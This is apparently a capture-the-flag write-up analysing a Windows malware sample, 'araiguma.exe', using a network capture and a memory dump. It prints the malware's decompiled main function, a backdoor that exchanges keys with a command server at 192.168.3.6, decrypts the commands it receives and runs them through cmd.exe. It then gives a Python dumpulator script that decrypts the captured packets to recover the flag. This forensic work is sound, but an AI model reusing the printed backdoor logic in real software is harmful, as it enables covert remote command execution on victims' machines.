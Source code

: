 # DoroboH challenge

Description: I found a suspicious process named "araiguma.exe" running on my computer.
Before removing it, I captured my network and dumped the process memory.
Could you investigate what the malware is doing?

Download: https://drive.google.com/file/d/1KeEBMik_Dks4s5ikzDwcpLvFjMjevyyQ/view

## Initial decompilation

I loaded the program into IDA Pro, and got a pretty nice decompilation:
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  DWORD dwBytes; // [rsp+38h] [rbp-48h] BYREF
  int dwBytes_4; // [rsp+3Ch] [rbp-44h] BYREF
  struct sockaddr name; // [rsp+40h] [rbp-40h] BYREF
  struct WSAData WSAData; // [rsp+50h] [rbp-30h] BYREF
  char buf[4]; // [rsp+1F0h] [rbp+170h] BYREF
  DWORD pdwDataLen; // [rsp+1F4h] [rbp+174h] BYREF
  HCRYPTKEY hKey; // [rsp+1F8h] [rbp+178h] BYREF
  HCRYPTKEY phKey; // [rsp+200h] [rbp+180h] BYREF
  HCRYPTPROV hProv; // [rsp+208h] [rbp+188h] BYREF
  BYTE v13[4]; // [rsp+210h] [rbp+190h] BYREF
  void *v14; // [rsp+218h] [rbp+198h]
  BYTE pbData[4]; // [rsp+220h] [rbp+1A0h] BYREF
  void *v16; // [rsp+228h] [rbp+1A8h]
  LPCSTR lpParameters; // [rsp+238h] [rbp+1B8h]
  BYTE *v18; // [rsp+240h] [rbp+1C0h]
  SOCKET s; // [rsp+248h] [rbp+1C8h]
  BYTE *v20; // [rsp+250h] [rbp+1D0h]
  HANDLE hHeap; // [rsp+258h] [rbp+1D8h]

  _main();
  *(_DWORD *)pbData = 64;
  v16 = &g_P;
  *(_DWORD *)v13 = 64;
  v14 = &g_G;
  hHeap = GetProcessHeap();
  if ( !hHeap )
    return 1;
  if ( !(unsigned int)_IAT_start__(
                        &hProv,
                        0i64,
                        "Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider",
                        13i64,
                        -268435456) )
    return 1;
  if ( CryptGenKey(hProv, 0xAA02u, 0x2000041u, &phKey)
    && CryptSetKeyParam(phKey, 0xBu, pbData, 0)
    && CryptSetKeyParam(phKey, 0xCu, v13, 0)
    && CryptSetKeyParam(phKey, 0xEu, 0i64, 0) )
  {
    if ( CryptExportKey(phKey, 0i64, 6u, 0, 0i64, &pdwDataLen) )
    {
      v20 = (BYTE *)HeapAlloc(hHeap, 0, pdwDataLen);
      if ( v20 )
      {
        if ( CryptExportKey(phKey, 0i64, 6u, 0, v20, &pdwDataLen) )
        {
          WSAStartup(2u, &WSAData);
          s = socket(2, 1, 0);
          name.sa_family = 2;
          *(_WORD *)name.sa_data = htons(0x1F90u);
          inet_pton(2, "192.168.3.6", &name.sa_data[2]);
          if ( !connect(s, &name, 16) )
          {
            send(s, (const char *)&pdwDataLen, 4, 0);
            send(s, (const char *)v20, pdwDataLen, 0);
            recv(s, buf, 4, 0);
            v18 = (BYTE *)HeapAlloc(hHeap, 0, *(unsigned int *)buf);
            if ( v18 )
            {
              recv(s, (char *)v18, *(int *)buf, 0);
              if ( CryptImportKey(hProv, v18, *(DWORD *)buf, phKey, 0, &hKey) )
              {
                dwBytes_4 = 26625;
                if ( CryptSetKeyParam(hKey, 7u, (const BYTE *)&dwBytes_4, 0) )
                {
                  memset(v18, 0, *(unsigned int *)buf);
                  while ( recv(s, (char *)&dwBytes, 4, 0) == 4 )
                  {
                    lpParameters = (LPCSTR)HeapAlloc(hHeap, 0, dwBytes);
                    if ( !lpParameters )
                      break;
                    recv(s, (char *)lpParameters, dwBytes, 0);
                    if ( !CryptDecrypt(hKey, 0i64, 1, 0, (BYTE *)lpParameters, &dwBytes) )
                    {
                      HeapFree(hHeap, 0, (LPVOID)lpParameters);
                      break;
                    }
                    ShellExecuteA(0i64, "open", "cmd.exe", lpParameters, 0i64, 0);
                    memset((void *)lpParameters, 0, dwBytes);
                    HeapFree(hHeap, 0, (LPVOID)lpParameters);
                  }
                }
              }
              HeapFree(hHeap, 0, v18);
            }
            closesocket(s);
          }
          WSACleanup();
        }
        HeapFree(hHeap, 0, v20);
      }
    }
    CryptDestroyKey(phKey);
  }
  CryptReleaseContext(hProv, 0);
  return 0;
}
```

I also did a quick look at the other functions and initializers to make sure there wasn't any hidden code, but nothing caught my attention.

The `__IAT_start__` function call is weird and is caused by symbol overlap, it is actually a call to `CryptAcquireContextA`.

This program does some kind of key exchange with the attacker's server (located in LAN, so even if you ran this program nothing terrible should have happened), then receives messages from the attacker, each prefixed with 4 byte length, decrypts them and executed cmd.exe with the content. The difficulty is presumably decrypting the received messages. The key exchange also uses messages prefixed with 4 byte lengths. The IP of the attacker server is `192.168.3.6`.

My first idea was to maybe extract the key data from memory, but a quick look at the decompilation for the relevant method and the Wine source code revealed that this would be rather difficult due to multiple levels of indirection.

I instead remembered that I have seen a tool that can be used to emulate a minidump, so I decided to try to find it. The tool can be found at https://github.com/mrexodia/dumpulator. The idea is to call the `CryptDecrypt` function in the dump with the packet contents, with the pointer to the key.

## Dump analysis

We need to find the neccessary function offsets and the address of the `hKey` variable in the dump.

I loaded the dump into IDA Pro, used "Jump to address" to navigate to `0x401550`, defined a function there, and then navigated to the first call site in the araiguma binary from the Stack trace view (which can be opened using Debugger -> Debugger windows). While the imported functions are still unnamed, and this probably could be fixed somehow, this was not a big problem for me as I had the import names in the IDA with the actual binary.

We can see that we are waiting on the innermost `rev` call, after the key exchange has been completed. This means we need to get the `hKey` pointer. Unfortunately, IDA seems not to be able to unroll the stack automatically, or at least I don't know how to make it do that, so double clicking the pointer in the decompiler view does not give the correct address. I instead manually unrolled the stack pointer (all the functions on the stack had bp-frames so the saved rbp pointer was always before the return value for all the relevant functions) and found the key's pointer to be `0xF62E0`. Finding the address of `CryptDecrypt` can be done by just copying the function address from IDA Pro (and it is `0x7FFA9E0BF410`).

## Packet analysis

The pcap can be opened in Wireshark. We use the filter: `ip.addr == 192.168.3.6`, which is the IP of the attacker's server. We can see a single TCP stream, which we can merge using: Analyze -> Follow -> TCP stream. Then I switched the data view mode to Hex Dump.

We know that there will be one client -> server message starting the key exchange and one server -> client message completing the exchange. All server -> client commands afterwards are command invocations. We can copy them into a Python script (I used the C array view option for this) for later decryption.

## The script

Now we can write a Python script using the dumpulator library. The API is rather simple, however it apparently does not support calling functions with more than 4 parameters. However, we can still push values onto the stack, so we can push the extra values onto the stack before calling `CryptDecrypt`. An important fact is that the Microsoft ABI specified that there is a 0x20 shadow space before the arguments begin, so I filled that space with zeros. Otherwise, this script was quite straightforward. There are two packets we extracted from the packet log, the first one is uncommented in the script below and contains the flag, the other one creates a non-important file on the desktop telling the user that they are compromised.

```py
from dumpulator import Dumpulator
import struct

CryptDecrypt = 0x7FFA9E0BF410
hKey = 0xF62E0

pk = bytes([0x8c, 0x28, 0xc2, 0x0d, 0x02, 0x7a, 0xa8, 0xbc, 0x9a, 0x71, 0xb1, 0x07, 0x02, 0x24, 0x21, 0xe9, 0x07, 0x34, 0x0d, 0xe0, 0xf9, 0xa4, 0xc5, 0x40, 0x61, 0x1f, 0x2d, 0x95, 0xb5, 0x60, 0xf8, 0x43, 0x5f, 0xdb, 0x44, 0xec, 0xb3, 0x88, 0x76, 0xdd, 0xab, 0x1f, 0xe3, 0xff, 0xca, 0xf2, 0x6a, 0xeb, 0x65, 0xb7, 0xf7, 0xf4, 0xd1, 0xd0, 0xbc, 0x6c, 0xee, 0xc5, 0x21, 0xc7, 0x7c, 0x27, 0xcd, 0x0f, 0xfb, 0xa4, 0xa9, 0xd0, 0x07, 0x22, 0x8c, 0x47, 0x82, 0x88, 0xb9, 0x06, 0xb6, 0x4d, 0x83, 0x2b, 0xe9, 0x82, 0x2e, 0x12, 0x3e, 0xc4, 0xa5, 0xab, 0xbc, 0x15, 0x5a, 0x24, 0xb6, 0x3a, 0x8c, 0x65, 0x7c, 0x05, 0xff, 0x61, 0x48, 0x12, 0x4f])
#pk = bytes([0x8c, 0x28, 0xc2, 0x0d, 0x02, 0x7a, 0xa8, 0xbc, 0x9a, 0x6b, 0xd4, 0x36, 0x24, 0x0c, 0x1d, 0xf7, 0x3e, 0x27, 0x14, 0xbf, 0xab, 0xae, 0xfb, 0x7d, 0x34, 0x06, 0x35, 0xdf, 0x91, 0x74, 0xe2, 0x47, 0x19, 0xdd, 0x3b, 0xcc, 0xe8, 0x95, 0x72, 0xdd, 0xad, 0x49, 0xac, 0x8c, 0x93, 0xf1, 0x22, 0xaa, 0x61, 0xad, 0xa3, 0xf3, 0xcb, 0x8a, 0xa1, 0x28, 0x8b, 0xab, 0x33, 0x95, 0x71, 0x69, 0xfd, 0x04, 0xc4, 0x82, 0xa7, 0x97, 0x55, 0x6f, 0xf0, 0x67, 0xcc, 0xb2, 0xb0, 0x31, 0xb6, 0x4c, 0x9b, 0x03, 0xe5, 0x86, 0x14, 0x20, 0x15, 0xd5, 0xbf, 0xa6, 0xa1, 0x19, 0x4b, 0x0c, 0xb9, 0x39, 0x83, 0x2c, 0x26, 0x09, 0xf3, 0x18, 0x4f, 0x18])

dp = Dumpulator("araiguma.DMP")

buf_addr = dp.allocate(256+4)
dp.write(buf_addr, pk) # packet data
dp.write(buf_addr+256, struct.pack('<I', len(pk))) # length

dp.push(buf_addr+256) # pointer to length
dp.push(buf_addr) # pointer to data
dp.push(0) # padding required due to Windows ABI
dp.push(0)
dp.push(0)
dp.push(0)
dp.call(CryptDecrypt, [hKey, 0, 1, 0])
decrypted = dp.read(buf_addr, len(pk))
print(decrypted)
```


